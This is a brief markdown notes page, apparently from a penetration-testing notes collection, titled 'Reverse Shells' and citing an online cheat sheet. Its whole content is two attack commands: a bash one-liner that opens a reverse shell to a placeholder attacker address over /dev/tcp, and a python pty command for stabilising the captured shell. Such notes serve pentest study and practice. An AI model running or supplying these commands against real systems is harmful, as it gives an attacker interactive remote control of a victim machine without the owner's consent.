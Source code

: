 [Home](./index.md)

# Reverse Shells

## Sources

https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells

## Shells

```
bash -i >& /dev/tcp/ATTACKING-IP/PORT 0>&1
```


## Stabilize

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
